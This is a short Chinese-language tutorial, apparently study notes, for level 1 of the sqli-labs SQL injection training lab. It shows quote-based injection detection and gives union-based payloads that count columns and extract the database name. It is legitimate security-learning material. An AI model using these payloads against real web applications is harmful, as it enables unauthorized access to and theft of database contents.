 [TOC]



# L1

## 首先判断注入类型



输入id=1'产生错误

![](U:\doc\web\sqli-labs\pic\1.png)



输入id=1“没有错误

![2](U:\doc\web\sqli-labs\pic\2.png)



产生字符型注入



## 判断列的数量



```sql
/?id=1' order by 1
```



order by后的数字表示的是列。

将列的大小变大直到出错则可以知道列的数量



## 获取数据库名称



### 判断哪些列可以被输出



```sql
/?id=1' union select 1,2,3
```

观察输出即可知道哪些列被输出



###  数据库名称



```sql
/?id=1' union select 1,2,database() --+
```

